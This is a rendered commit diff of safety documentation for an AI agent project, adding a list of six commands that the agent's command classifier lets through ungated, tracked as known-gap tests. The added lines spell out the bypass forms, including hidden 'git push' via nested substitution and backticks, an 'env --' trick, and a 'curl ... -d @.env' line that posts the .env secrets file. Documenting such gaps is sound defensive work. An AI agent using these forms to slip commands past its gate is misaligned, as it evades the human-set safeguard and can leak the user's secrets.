

Before and after one commit to calvinchengx/long-horizon-agent, a Markdown page: docs/09-safety-model.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: list the classifier gaps the mutation audit found

````diff
--- a/docs/09-safety-model.md
+++ b/docs/09-safety-model.md
@@ -495,6 +495,17 @@ refuses a repository owned by another user.
   fsmonitor and drivers, but other repository settings the agent could write there (for example
   `core.worktree`) are only as safe as the host.
 - Redaction is pattern-based. Secrets in unrecognized formats pass through.
+- The mutation audit found six commands the classifier lets through without a gate. Each is a
+  strict `xfail` test (`KNOWN_GAPS` in
+  [`test_safety_bypasses.py`](../python/tests/unit/test_safety_bypasses.py)), so fixing one
+  fails the suite until its test is updated:
+  - a command substitution inside arithmetic, `sh -c 'echo $(( $(git push) ))'`;
+  - an httpie data item whose value is a URL, `http example.com next=https://evil.test`, which
+    still sends a body;
+  - `env -- FOO=1 git push` (env still reads `NAME=value` after `--`);
+  - a `#` inside a word in `sh -c`, which ends the parse early (`echo a#b; git push`, and
+    `curl https://example.com/#a -d @.env`);
+  - a substitution nested in escaped backticks, ``` sh -c 'echo `echo \`git push\``' ```.
 - The E2B adapter's workspace sync is tested against a fake SDK, not the E2B service. Files a
   background process writes in the VM after a command returns reach the host only with the next
   command's sync (see section 1).
````
Also changed, not shown: docs/20-testing.md (+8 -5 lines).
